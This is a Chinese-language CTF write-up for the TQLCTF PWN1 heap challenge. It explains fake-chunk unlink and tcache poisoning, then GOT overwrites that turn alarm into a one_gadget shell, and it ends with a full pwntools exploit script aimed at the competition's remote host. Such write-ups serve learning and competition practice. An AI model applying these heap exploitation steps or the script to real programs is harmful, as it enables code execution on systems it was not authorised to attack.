

# TQLCTF PWN1 WriteUp

## 0x00 前言

好久没有打过CTF写过WriteUp了，都快一道题都不会写了，刚好遇到一道比较有意思的题，写个wp记录一下

## 0x10 程序分析

可以看到程序给到我们一个offset free, 我们可以用他来构造largebins来完成利用，但由于这道题没有开启对got表的保护，因此我们就有很多中办法来完成利用了，这里主要写我在比赛时遇到的问题，以及最后如何完成利用的。


我们对程序观察可以发现程序留有一个后门，当时我的第一个想法是控制程序返回到这个后门，但其实这样会遇到很多问题


接下来我们来看看ADD函数，对`size`做了限制，`0x10<=size<=0x1000`


我们发现，这里malloc了以后就直接free了，这里就导致我们后面利用的很难受

## 0x20 尝试利用

> 调试环境：Ubuntu 20.04
>
> 用到的工具：one_gadget, pwntools, pwndbg

编写一下菜单交互

```python
def add(size,context):
	sh.sendlineafter("> ","1")
	sh.sendline(str(size))
	sh.sendline(context)

def free(index):
	sh.sendlineafter("> ","2")
	sh.sendline(str(index))
```

遇到这种题我一般会先试探性的申请两个堆块来看看情况

```python
add(0x100,"F0und")
add(0x80,"AAA")
add(0x20,"BBBB")
```

这里有一件很重要的事情要做，那就是确定断点位置，下断点(这里我将断点下在两个函数malloc 和 free的地方来方便调试)

```python
# free proint 
# gdb.attach(sh,"b *0x00000000004013FD ")
# malloc proint
# gdb.attach(sh,"b *0x0000401387 ")
```

```python
	add(0x100,"F0und")
	add(0x80,"AAA")
	gdb.attach(sh,"b *0x0000401387 ")
	add(0x20,"BBBB")
```


这里我们可以看到断点是没问题的，下面来看看堆块情况


这里我们看到ptr指针里有一个堆块，然后翻看程序发现，他在最开始的时候申请了一个堆块


因此我们可以通过这个堆块往上或者往下去free，这里我的想法是往下free，因为下面的内容我们可以控制，我们可以通过这样构造一个fake_chunk给他free，然后再申请回来构造堆块重叠来修改已经被free的堆块来构造任意地址写

```
0x1f7c2b0:	0x0000000000000000	0x0000000000001011 - real prv_szie and real size
0x1f7c2c0:	0x0000000000000000	0x0000000000000081 - fake prv_szie and fake size
0x1f7c2d0:	0x0000000000404000	0x0000000000404008 - 绕过unlink检查
0x1f7c2e0:	0x4141414141414141	0x4141414141414141
0x1f7c2f0:	0x4141414141414141	0x4141414141414141
0x1f7c300:	0x4141414141414141	0x4141414141414141
0x1f7c310:	0x4141414141414141	0x4141414141414141
0x1f7c320:	0x4141414141414141	0x4141414141414141
0x1f7c330:	0x4141414141414141	0x4141414141414141
0x1f7c340:	0x0000000000000080	0x0000000000000090 - 0x80 fake_prv_size
```

构造：

```python
	target = 0x404018 # 固定值就行，为了绕过检查
	fd = target - 0x18
	bk = target - 0x10
	fake_chunk = p64(0)+p64(0x81)+p64(fd)+p64(bk)+"A"*0x60+p64(0x80)
	add(0x1000,fake_chunk)
	free(0x30)
	gdb.attach(sh,"b *0x0000401387 ")
	add(0x1000,p64(0)+p64(0x81)+p64(target)) # 修改free chunk的fd
```



可以看到free chunk的fd已经被修改成功了

但题目给的是Ubuntu20.04的环境（dockerfile里有写），此时的teachebins是加了count数组的，覆盖成这个样子肯定是没办法用的，因此需要提前布置好堆块链条，我这里选择提前申请几个块来布置堆块

```python
	for i in range(1,8):
		add(i*0x10,"AAA") 
	target = 0x404018 # 固定值就行，为了绕过检查
	fd = target - 0x18
	bk = target - 0x10
	fake_chunk = p64(0)+p64(0x81)+p64(fd)+p64(bk)+"A"*0x60+p64(0x80)
	add(0x1000,fake_chunk)
	free(0x260) # 由于堆块布局变化了，这里也要变化
	gdb.attach(sh,"b *0x0000401387 ")
	add(0x1000,p64(0)+p64(0x81)+p64(target)) # 修改free chunk的fd
```


可以看到这个时候0x80的count为2,我们在申请两次就可以拿到我们想要的位置，接下来就是控制程序流的问题了，这道题有趣就有趣在这里，我的第一个想法是修改free_got为后门，但调试后发现：

```python
	add(0x1000,p64(0)+p64(0x31)+p64(target))# 修改0x81->0x31,使其可以free出链条
	add(0x70,"AAAA")
	gdb.attach(sh,"b *0x0000401387 ")
	add(0x70,p64(backdoor))
```


可以发现，`puts`被清空了，导致后门废了，因此我开始找可以修复的方法，然后我就发现了write函数，但write函数需要三个参数，怎么办呢，在全程序只有一处调用write的地方我发现：

```
        00401539 bf 01 00        MOV        EDI,0x1
                 00 00
        0040153e e8 bd fb        CALL       write                                            
```

加上前面read的汇编

```
        00401498 ba 40 00        MOV        EDX,0x40
                 00 00
        0040149d 48 89 ce        MOV        RSI,RCX
        004014a0 89 c7           MOV        EDI,EAX
        004014a2 e8 99 fc        CALL       read   
        00401539 bf 01 00        MOV        EDI,0x1
                 00 00
        0040153e e8 bd fb        CALL       write 
```

这样一看貌似有的搞

但调试调着发现，write是内鬼，flag太长打印不完


一输出就出问题了，暂时没想到很好的解决办法，因此我打算换一种思路

那修改target然后返回到后门不行嘛


调试以后我发现，修改可以修改成功，但free失败会导致程序调用`libc_message`打印信息并退出，所以这种方法也不太行，虽然这里其实有其他办法来完成利用，但我在当时没想到那种利用思路，因此我当时的想法是，既然got表能写，那有没有一种方法可以拿shell

## 0x30 Final exp

于是我看着got表开始想链条，突然我想到两种方法

1. 修改puts_got到put_plt泄漏一个libc地址，算偏移来用onegadget
2. one_gadget! Alarm 这两个东西放一块突然就有了思路，可以发现程序里面有alarm,众所周知alarm距离one_gadget很近只需要覆盖两个字节就可以完成爆破利用，那么我们只要想办法满足one_gadget的触发条件不就行了

```
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

然后我在调试的时候发现，直接调用的话全都是不满足的，但我可以构造多次任意地址写，构成一个链条，因此我在程序中找了能满足条件的汇编语句，最终发现，open前的汇编可以清空 `rdx rsi` 这不就刚好满足条件嘛


然后我看了这个程序got表的位置


想要利用我们要修改open的got表，那就绕不过alarm来修改，因此我们需要两次修改机会

因此我假设了程序流程

```
假设修改第一次修改
			 free_got = 0x401473 # open 前面汇编
			 puts_got = 0x401543 # main_choice_read_int
			 alarm_got & 0xffff = \x84\x5c # one_gadget
			 第二次修改
			 open_got = 0x40150f # init_call_alarm
c2 第一次修改 -> free-> c3.open -> c3.puts -> main_choice -> c2.readline 第二次修改open_got -> c2.free -> c3.open -> init.call_alarm -> call execve("/bin/sh",0,0)
```

最终exp 成功率 `1/16`


```python
#!/usr/bin/env python
#-*-coding:utf-8-*-

from pwn import *

context.update(arch = 'amd64', os = 'linux', timeout = 1)

proc="./pwn"

elf=ELF(proc)

# 0xf < size <= 0x1000
# target = 0x000404080

def add(size,context):
	sh.sendlineafter("> ","1")
	sh.sendline(str(size))
	sh.sendline(context)

def free(index):
	sh.sendlineafter("> ","2")
	sh.sendline(str(index))

def pwn(ip,port,debug):
	global sh
	if debug==1:
		context.log_level="debug"
		sh=process(proc)
	else:
		context.log_level="debug"
		sh=remote(ip,port)
		
		

	target = 0x404018
	backdoor = 0x401473
	ptr = 0x4040d0
	# free proint 
	# gdb.attach(sh,"b *0x00000000004013FD ")
	# malloc proint
	
	for i in range(1,8):
		add(i*0x10,"AAA") 
	#gdb.attach(sh)
	fd = target - 0x18
	bk = target - 0x10
	fake_chunk = p64(0)+p64(0x81)+p64(fd)+p64(bk)+"A"*0x60+p64(0x80)
	add(0x1000,fake_chunk)
	free(0x260)

	
	add(0x1000,p64(0)+p64(0x31)+p64(target))
	# gdb.attach(sh,"b *0x0000401387 ")
	#add(0x1000,p64(0)+p64(0x61)+p64(target))
	add(0x70,"f0und")
	
	add(0x1000,p64(0)+p64(0x41)+p64(0x404058))
	add(0x20,"f0und")
	add(0x1000,p64(0)+p64(0x51)+p64(target))
	add(0x30,"f0und")
	
	
	add(0x70,p64(0x401473)+p64(0x401543)*4+"\x84\x5c")
	# gdb.attach(sh,"b *0x4013a8 ")
	add(0x20,p64(0x40150f))
	sh.interactive()

if __name__ =="__main__":
	while 1:
		pwn("119.23.255.127",48948,0)
	
"""
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
  
  0x7f71e1469c7e
  0x7f71e1469c81
0x7f71e1469c84
"""
```

